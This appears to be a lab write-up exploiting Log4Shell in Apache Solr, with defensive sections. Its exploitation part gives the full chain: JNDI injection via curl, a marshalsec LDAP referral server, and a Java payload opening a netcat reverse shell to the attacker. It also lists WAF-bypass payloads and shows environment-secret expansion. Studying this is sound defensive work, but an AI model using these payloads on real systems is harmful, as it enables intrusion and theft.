

# Solar, exploiting Log4j

## Introduction

CVE-2021-44228 released on December 2021. Vulnerability affects **log4j** Java logging package. CVE has severity of 10.0 and offers trivial RCE on targets that utilise log4j. Attack dubbed **Log4Shell**.

log4j version [**2.16.0**](https://github.com/apache/logging-log4j2/releases/tag/rel%2F2.16.0) patches vulnerability by fully disabling JNDI, removing support for Message Lookups, and is not susceptible to CVE-2021-45046 DoS vulnerability.

Enormous attack surface as millions of applications use log4j package as part of their code. Many vendors still need to push security updates downstream.


Community-supported list of software and services vulnerable to CVE-2021-44228





## Reconnaissance

Run basic nmap scan against target:

```
sudo nmap -v TARGET_IP
```

```
[SNIP]
PORT    STATE SERVICE
22/tcp  open  ssh
111/tcp open  rpcbind
[SNIP]
```

Scan all ports via nmap:

```
sudo nmap -v TARGET_IP -p-
```

```
[SNIP]
PORT     STATE SERVICE
22/tcp   open  ssh
111/tcp  open  rpcbind
8983/tcp open  unknown
[SNIP]
```

Identify service running on port 8983 using nmap service detection scan:

```
sudo nmap -v TARGET_IP -p 8993 -sV
```

```
[SNIP]
PORT     STATE SERVICE VERSION
8983/tcp open  http    Apache Solr
[SNIP]
```

## Discovery

Browse to http://TARGET\_IP:8993:

<figure><figcaption><p>Apache Solr</p></figcaption></figure>

Apache Solr 8.11.0 known to include vulnerable log4j package and so is vulnerable to CVE-2021-44228.&#x20;

Example **solr.log** file shows repeated requests to **/admin/cores** URL endpoint with **params** field name.

## Proof of Concept

Brose to http://TARGET\_IP:8983/solr/admin/cores to view URL endpoint:

<figure><figcaption><p>Solr URL endpoint</p></figcaption></figure>

Log4j adds extra logic to logs by **parsing** entries to enrich data. May also take actions to evaluate code based off entry data. This is gist of CVE-2021-44228. Some syntax may be **executed** when entered into log files:

* ${sys:os.name}
* ${sys:user.name}
* ${log4j:configParentLocation}
* ${ENV:PATH}
* ${ENV:HOSTNAME}
* ${java:version}

Format of usual syntax to abuse log4j is **${jndi:ldap://ATTACKERCONTROLLEDHOST}**.

Syntax indicates that log4j will invoke functionality from **Java Naming and Directory Interface (JNDI)**. This can be used to access external resources (references) that are weaponised in attack.

**ldap://** schema indicates that target will reach out to attacker controlled endpoint via LDAP protocol.&#x20;

Syntax can be entered **anywhere data is logged by target application**. Attack surface different for different applications. Seeing presence of log4j files does not provide information on exact version number or where or how target application might use package.

In this example, **params** can be supplied to **/solr/admin/cores** URL. This is where inject syntax is supplied. Use HTTP GET parameters that are parsed by log4j. Single line of text makes vulnerability extremely easy to exploit.

JNDI syntax could be supplied on other locations:

* Input boxes, user and password login forms, data entry points within applications.
* HTTP headers such as User-Agent, X-Forwarded-For, or other customisable headers.
* **Any place for user-supplied data**.


JNDI attack vector information


Prepare netcat listener on attack system:

```
nc -lvnp 9999
```

Make GET request including primitive JNDI payload as HTTP parameters:

```
curl 'http://TARGET_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACK_IP:9999\}'
```

Must wrap URL within single quotes so Bash does not interpret dollar-sign as variable. Must also escape curly braces with single backslash to prevent misrepresentation in arguments.

<figure><figcaption><p>JNDI payload sent</p></figcaption></figure>

<figure><figcaption><p>Connection received</p></figcaption></figure>

## Exploitation

Target verified as vulnerable as connection caught by netcat listener.&#x20;

Stage **LDAP Referral Server** to redirect initial request from victim to attacker controlled location. Controlled location will host secondary payload that will ultimately run code on target.

1. **${jndi:ldap://attackerserver:1389/Resource}** -> reaches out to LDAP Referral Server.
2. LDAP Referral Server springboards request to secondary **http://attackerserver/resource**.
3. Victim retrieves and executes code present in **http://attackerserver/resource**.

Need to create HTTP server on attack system:

```
python3 -m http.server
```

```
php -S 0.0.0.0:8000
```

Use [**marshalsec**](https://github.com/mbechler/marshalsec) utility as LDAP Referral Server. Requires Java. README suggests using Java 8.&#x20;

Download and install Java 1.8.8\_181 if required:


Linux Java versions mirror


Select **jdk-8u181-linux-x64.tar.gz** package and download to attack system.&#x20;

Configure system to use Java version by default:

```
sudo mkdir /usr/lib/jvm 
```

```
cd /usr/lib/jvm
```

```
sudo tar xzvf ~/Downloads/jdk-8u181-linux-x64.tar.gz
```

```
sudo update-alternatives --install "/usr/bin/java" "java" "/usr/lib/jvm/jdk1.8.0_181/bin/java" 1
```

```
sudo update-alternatives --install "/usr/bin/javac" "javac" "/usr/lib/jvm/jdk1.8.0_181/bin/javac" 1
```

```
sudo update-alternatives --install "/usr/bin/javaws" "javaws" "/usr/lib/jvm/jdk1.8.0_181/bin/javaws" 1
```

```
sudo update-alternatives --set java /usr/lib/jvm/jdk1.8.0_181/bin/java
```

```
sudo update-alternatives --set javac /usr/lib/jvm/jdk1.8.0_181/bin/javac
```

```
sudo update-alternatives --set javaws /usr/lib/jvm/jdk1.8.0_181/bin/javaws
```

Run `java -version` to verify Java 1.8.0\_181 is now running.

Retrieve marshalsec utility:

Install **git** if necessary:

```
sudo apt install git
```

Clone repository to **/opt**:

```
git clone https://github.com/mbechler/marshalsec
```

Change to new folder:

```
cd marshalsec
```

Build marshalsec with Java builder **maven**.&#x20;

Install maven if necessary:

```
sudo apt install maven
```

Build marshalsec utility:

```
mvn clean package -DskipTests
```

<figure><figcaption></figcaption></figure>

Start LDAP referral server to direct connections to secondary HTTP server:


```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACK_IP:8000/#Exploit"
```


Terminal window now actively awaiting connections:

```
Listening on 0.0.0.0:1389
```

Open second terminal window to prepare final payload and secondary HTTP server.

Log4j vulnerability will execute arbitrary code crafted within Java programming language to "shell out" to run system command.&#x20;

Create or move to directory to host payload.&#x20;

Create **Exploit.java** payload:

<pre class="language-java" data-overflow="wrap"><code class="lang-java"><strong>public class Exploit {
</strong>    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash ATTACK_IP 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
</code></pre>

Payload will execute command on target to call back to attack system. Example target configured with ncat for ease of exploitation.&#x20;

Compile payload:

```
javac Exploit.java
```

Host payload by spinning up temporary HTTP server:

```
python3 -m http.server
```

Prepare netcat listener to catch reverse shell in another terminal window:

```
nc -lvnp 9999
```

Trigger exploit and fire off JNDI syntax:


```
curl 'http://TARGET_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACK_IP:1389/Exploit\}'
```


LDAP server receives request from target and redirects to Exploit:

<figure><figcaption></figcaption></figure>

HTTP server serves Exploit to target:

<figure><figcaption></figcaption></figure>

Reverse shell caught by netcal listener:

<figure><figcaption></figcaption></figure>

Initial access and command and control received on vanilla Solr instance. Threat actor could now perform privilege escalation, exfiltration, install persistence, perform lateral movement or any other post-exploitation activity.

## Persistence

Upgrade shell to stabilise it:

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

\[CTRL+z]

```
stty raw -echo
```

```
fg
```

\[enter]

```
export TERM=xterm
```

<figure><figcaption></figcaption></figure>

Can now potentially add private keys or change passwords.

Check super user permissions:

```
sudo -l
```

## Detection

Finding applications vulnerable to CVE-2021-44228 is **hard**. Detecting exploitation may be harder due to number of potential bypasses.&#x20;

InfoSec community has seen incredible outpouring of effort to develop tooling, and code to better constrain the threat:

* [Hashes for vulnerable log4j versions](https://github.com/mubix/CVE-2021-44228-Log4Shell-Hashes).
* [Hashes for vulnerable log4j CLASS files](https://gist.github.com/olliencc/8be866ae94b6bee107e3755fd1e9bf0d).
* [Listing of vulnerable JAR and CLASS hashes](https://github.com/nccgroup/Cyber-Defence/tree/master/Intelligence/CVE-2021-44228).
* [Powershell cmdlet for hunting for vulnerable log4j packages.](https://github.com/omrsafetyo/PowerShellSnippets/blob/master/Invoke-Log4ShellScan.ps1)
* [YARA rules for detecting versions of log4j](https://github.com/darkarnium/Log4j-CVE-Detect).


Massive CVE-2021-44228 resource


## Bypasses

"Typical" JNDI syntax used above may be caught by WAFs or detected. Payload can ultimately access all expansion, substitution, and templating tricks the package makes available. Unlimited number of bypasses to sneak into syntax.

Example bypasses:

* ${${env:ENV\_NAME:-j}ndi${env:ENV\_NAME:-:}${env:ENV\_NAME:-l}dap${env:ENV\_NAME:-:}//attackerendpoint.com/}&#x20;
* ${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/}&#x20;
* ${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/}&#x20;
* ${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}&#x20;
* ${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}&#x20;
* ${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i\}}://attackerendpoint.com/}&#x20;
* ${${::-j}ndi:rmi://attackerendpoint.com/}

Note **rmi://** protocol in last bypass. Valid technique that can be used with **marshalsec** utility.

Arbitrary environment variables can be expanded within log4j engine. E.g. ${env:AWS\_SECRET\_ACCESS\_KEY}.

## Mitigation

Review mitigation techniques suggested on [Apache Solr website](https://solr.apache.org/security.html). Can manually modify **solr.in.sh** with specific syntax.

Determine where **solr.in.sh** file exists on target:

```
locate solr.in.sh
```

Add specific syntax to file:

```
SOLR_OPTS="$SOLR_OPTS -Dlog4j2.formatMsgNoLookups=true"
```

Restart service for change to take effect:

```
sudo /etc/init.d/solr restart
```

No request now made to temporary LDAP server so no request made to HTTP server to trigger exploit.

## Patching

Industry frantically scrambling to patch software and push it downstream to end users. **Be understanding of this frenzy**. Attack surface is so large that vulnerability will be present for a long, long time. Roll out patches when available and continue to hunt for instances of vulnerability.

Patch **logging-log4j** package to version **2.16.0** or higher.


List of majorly affected services and products

